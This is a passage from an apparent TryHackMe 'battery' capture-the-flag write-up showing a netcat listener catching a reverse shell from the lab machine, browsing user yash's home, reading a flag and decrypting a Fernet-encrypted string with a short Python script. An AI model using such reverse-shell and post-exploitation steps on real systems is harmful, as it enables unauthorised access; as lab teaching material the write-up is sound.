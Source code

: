```
┌──(kali㉿kali)-[~/TryHackMe/battery]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.248.7] 44853
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
 20:05:43 up 54 min,  1 user,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
cyber    pts/0    ip-10-9-63-75.eu 19:27   15.00s  0.20s  0.20s -bash
uid=1002(yash) gid=1002(yash) groups=1002(yash)
/bin/sh: 0: can't access tty; job control turned off
```

Then I navigate to the **yash** directory and get the flag:

```
yash@ubuntu:/$ cd /home/yash
cd /home/yash
yash@ubuntu:/home/yash$ ls -l
ls -l
total 16
-rwx------ 1 root root 864 Nov 17  2020 emergency.py
-rw-rw-r-- 1 yash yash 167 Nov 17  2020 fernet
-rw-rw-r-- 1 yash yash  68 Nov 16  2020 flag2.txt
-rw--w---- 1 yash yash 295 Nov 15  2020 root.txt
```

```
yash@ubuntu:/home/yash# cat flag2.txt
THM{[REDACTED]}
```

I enumerate the files inside and find out the **fernet** file is containing some encrypted strings:

```
yash@ubuntu:/home/yash$ cat fernet
cat fernet
encrypted_text:gAAAAABfs33Qms9CotZIEBMg76eOlwOiKU8LD_mX2F346WXXBVIlXWvWGfreAX4kU5hjGXf0PiwtP0cmOm5JSUI7zl03V1JKlA==

key:7OEIooZqOpT7vOh9ax8arbBeB8e243Pr8K4IVWBStgA=
```

Base on the file’s name, I do some research and explore the **fernet** is a type of cipher. Therefore, I write down a Python script to decode the text:

{% highlight python linenos %}
from cryptography.fernet import Fernet

key = "7OEIooZqOpT7vOh9ax8arbBeB8e243Pr8K4IVWBStgA="
encrypted_text = "gAAAAABfs33Qms9CotZIEBMg76eOlwOiKU8LD_mX2F346WXXBVIlXWvWGfreAX4kU5hjGXf0PiwtP0cmOm5JSUI7zl03V1JKlA=="

fernet = Fernet(key)

token = bytes(encrypted_text, "utf-8")

decoded_text = fernet.decrypt(token)

print(decoded_text)
{% endhighlight %}
